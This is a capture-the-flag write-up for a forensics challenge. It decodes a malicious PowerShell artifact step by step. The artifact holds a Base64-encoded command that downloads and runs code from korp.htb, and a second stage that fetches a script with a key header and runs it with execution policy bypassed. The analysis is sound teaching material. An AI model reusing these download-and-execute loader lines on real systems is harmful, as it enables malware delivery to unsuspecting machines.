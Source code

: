 # Thorin’s Amulet


Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

By starting the challenge, we obtain a powershell script `artifact.ps1` :
```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```
First the script checks if it is running on `WORKSTATION-DM-0043` then if it is, it executes :
```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
``` 
Which gives us : 
```powershell
 ( New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```
Once decoded from Base64, it will download this from `http://korp.htb/update` :
```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
This script will also GET a file at `http://korp.htb/a541a` with `5337d322906ff18afedc1edc191d325d` as the key and then execute it bypassing some powershell restrictions using `-exec Bypass`.

So we retrieve this file to see what's interesting inside, maybe malicious code, or maybe a flag ? Who knows.

![image-1](https://github.com/user-attachments/assets/3d72173f-3dcb-4a57-9247-5746e5528a2d)

![image-2](https://github.com/user-attachments/assets/bd53afe3-731d-4c8f-ac03-4ec33485ca0c)

So, we make it readable and a little surprise awaits us :

![image-3](https://github.com/user-attachments/assets/792052b8-7580-48a2-b91c-112da43214da)

ggs
